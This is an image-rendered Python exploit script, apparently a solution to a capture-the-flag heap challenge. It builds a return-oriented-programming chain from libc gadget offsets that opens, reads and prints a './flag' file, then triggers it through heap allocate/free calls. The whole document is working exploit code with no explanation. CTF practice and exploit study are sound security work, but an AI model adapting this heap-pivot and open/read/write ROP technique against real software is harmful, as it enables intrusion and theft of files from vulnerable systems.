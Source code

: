 ```python
pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
